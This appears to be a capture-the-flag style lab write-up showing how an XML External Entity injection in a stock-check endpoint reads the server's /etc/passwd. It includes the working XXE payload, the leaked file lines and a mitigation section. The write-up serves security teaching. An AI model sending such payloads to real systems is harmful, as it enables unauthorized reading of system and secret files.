

# Extracting Files using XML External Entity (XXE) Injection

## Lab Information

**Challenge Name:** Exploiting XXE using external entities to retrieve files  
**Classification:** XML External Entity (XXE)  
**Skill Level:** Apprentice  
**Status:** Resolved  

---

## Objective

Target an XML parser in the stock status functionality that processes user-submitted XML payloads. The goal is to leverage an XML External Entity (XXE) vulnerability to read the server's `/etc/passwd` file.

---

## Vulnerability Analysis

The application parses incoming XML requests and permits external entity definitions without sanitization or validation. By registering an external entity mapped to a local file path and referencing it within the XML payload, an attacker can coerce the backend parser into exposing sensitive operating system files in the response.

---

## Exploitation Walkthrough

### Step 1: Intercepting the XML Payload

1. Navigate to a product detail view.
2. Request a stock check and capture the XML transaction using Burp Suite.
3. Relay the request to Burp Repeater.

The original XML payload structure is formatted as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

---

### Step 2: Injecting the XXE Payload

Modify the XML request body to define an external entity pointing to the `/etc/passwd` path:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Transmit this modified request to the backend.

### Screenshot



---

### Step 3: Verifying File Retrieval

The parser resolves the external entity and substitutes the reference with the file content. The server's response returns the text from `/etc/passwd`:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

This confirms the successful disclosure of local server files.

### Screenshot


---

### Step 4: Confirming Challenge Resolution

Once the file contents are returned in the response, the system registers the lab as successfully resolved.

### Screenshot


---

## Security Impact

Exploiting XXE allows malicious actors to retrieve local files from the server. 

Depending on configuration, this can lead to:

* Exfiltration of application configurations.
* Disclosure of source code files.
* Leakage of application secrets and passwords.
* Host mapping and internal scanning.
* Full remote server compromise.

---

## Root Cause Analysis

The XML parser is configured to evaluate external entity references defined in incoming DTDs. Because this resolution option remains enabled, attackers can declare custom entities mapping to local files and retrieve their contents in the application's output.

---

## Mitigation and Prevention

1. Completely disable Document Type Definition (DTD) processing.
2. Disable external entity resolution in XML parsing libraries.
3. Ensure XML parsers are securely configured by default.
4. Filter and sanitize XML input prior to evaluation.
5. Restrict application process privileges on the server.

---

## Summary

This lab demonstrates a classic XML External Entity (XXE) vulnerability. By defining an external entity pointing to `/etc/passwd` and referencing it in the stock check payload, we disclosed sensitive server-side files. Hardening XML parsers and disabling DTD processing are essential to mitigate this risk.
